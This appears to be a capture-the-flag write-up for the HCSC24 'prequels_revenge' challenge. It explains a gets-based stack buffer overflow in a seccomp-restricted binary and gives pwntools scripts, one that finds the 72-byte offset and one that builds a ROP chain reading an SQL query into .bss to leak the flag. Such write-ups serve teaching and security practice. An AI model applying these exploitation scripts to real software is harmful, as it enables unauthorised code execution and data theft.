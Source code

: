# Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages.db`

This challenge is essentially the same as `prequels`, but this time we don't have any debug functions or useful strings, so we have to be smart about constructing our ROP chain.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place - this is not true for the main function, and there isn't a memory segment that is writeable and executable at the same time. We also don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)

As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequels_revenge")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
This time our job is harder than the previous challenge, because there are no debug functions, and there is no `SELECT * FROM flag;` string in the binary that we could utilize for getting the flag.

Our new strategy is to call the gets on a writeable memory address (for example bss), write `SELECT * FROM flag;` to that place and then call get_messages with the query provided by us.
This is pretty easy, we need a pop rdi gadget, and the address of gets and get_message. We don't have to supply another parameter to get_message, because it only prints out a warning when we don't supply the second parameter.

This time I utilized pwntools' automatic rop chain building capabilities.

```python
from pwn import *

context.binary = elf = ELF("./prequels_revenge")

p = process()

r = ROP(elf)
r.raw(b"A" * 72) # padding

r.gets(elf.bss()) # elf bss is a writeable memory address
r.get_message(elf.bss())

p.sendline(r.chain())
p.sendline(b"SELECT * FROM flag;")
p.recvuntil(b"Failed to bind text: column index out of range\n")

flag = p.recvline().decode()
log.info("Got flag: " + flag)
```

Running the exploit on remote yields the following flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`
This is pretty funny because my first method for solving the previous challenge named `prequels` was this exploit, then I realized there is a simpler way, but actually, this was beneficial, because on the second day, this challenge came out and I already had this exploit.